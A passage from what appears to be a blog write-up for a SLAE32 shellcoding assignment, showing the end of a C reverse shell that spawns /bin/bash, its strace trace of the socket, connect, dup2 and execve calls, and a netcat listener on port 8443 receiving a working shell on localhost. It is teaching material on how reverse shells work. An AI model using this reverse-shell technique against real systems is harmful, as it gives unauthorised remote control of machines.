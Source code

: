     // Execute the program SHELL /bin/bash
    execve(SHELL, NULL, NULL);

    return 0;
}
{% endhighlight %}

### Testing the prototype

After compiling C code, i ran the netcat which listening to port `8443` and then ran the application which immediately connect to the listening port by netcat from another terminal and able to get the shell. Also from the `strace` command output below i could trace the specified set of system calls used during the execution. And from here i could start for the assembly code.

{% highlight console %}
kecebong@ubuntu:~/slae32/assigment/reverse$ gcc reverse_shell.c -o reverse_shell
kecebong@ubuntu:~/slae32/assigment/reverse$
kecebong@ubuntu:~/slae32/assigment/reverse$ strace -e socket,connect,dup2,execve ./reverse_shell
execve("./reverse_shell", ["./reverse_shell"], [/* 19 vars */]) = 0
socket(PF_INET, SOCK_STREAM, IPPROTO_IP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(8443), sin_addr=inet_addr("127.0.0.1")}, 16) = 0
dup2(3, 0)                              = 0
dup2(3, 1)                              = 1
dup2(3, 2)                              = 2
execve("/bin/bash", [0], [/* 0 vars */]) = 0
socket(PF_FILE, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 4
connect(4, {sa_family=AF_FILE, path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
socket(PF_FILE, SOCK_STREAM|SOCK_CLOEXEC|SOCK_NONBLOCK, 0) = 4
connect(4, {sa_family=AF_FILE, path="/var/run/nscd/socket"}, 110) = -1 ENOENT (No such file or directory)
--- SIGCHLD (Child exited) @ 0 (0) ---
--- SIGCHLD (Child exited) @ 0 (0) ---

────────────────────────────────────────────────────────────────────────────────────────────────────────
kecebong@ubuntu:~/slae32/assigment/reverse$ nc -lvn 8443
Connection from 127.0.0.1 port 8443 [tcp/*] accepted
id
uid=1000(kecebong) gid=1000(kecebong) groups=1000(kecebong),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),
108(lpadmin),109(sambashare)
ps
  PID TTY          TIME CMD
14282 pts/4    00:00:00 bash
14500 pts/4    00:00:00 strace
14501 pts/4    00:00:00 bash
14503 pts/4    00:00:00 ps
{% endhighlight %}

## Implementation
